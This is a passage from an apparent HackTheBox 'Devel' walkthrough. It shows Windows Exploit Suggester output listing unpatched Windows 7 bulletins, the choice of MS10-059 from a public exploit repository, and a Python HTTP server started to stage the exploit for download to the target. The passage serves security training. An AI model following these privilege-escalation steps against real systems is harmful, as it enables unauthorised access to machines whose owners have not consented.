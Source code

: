 
Copy this information into a file so we can use it in suggester.

Once we have everything setup, let's run suggester.py

```bash
root@kali:/opt/Windows-Exploit-Suggester# ./windows-exploit-suggester.py --database 2021-02-21-mssb.xls --systeminfo /root/HTB/Devel/systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 179 potential bulletins(s) with a database of 137 known exploits
[*] there are now 179 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 7 32-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

Now that we are here, we need to try to exploit one of these vulnerabilities. I'll try with MS10-059. The first thing you gonna do is to google MS10-059. I found this [github repo](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059) so let's see if it works.

 

From here, i'm going to start a python server so i will be able to download the file on the target machine

```bash
root@kali:~/HTB/Devel/Exploits# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```
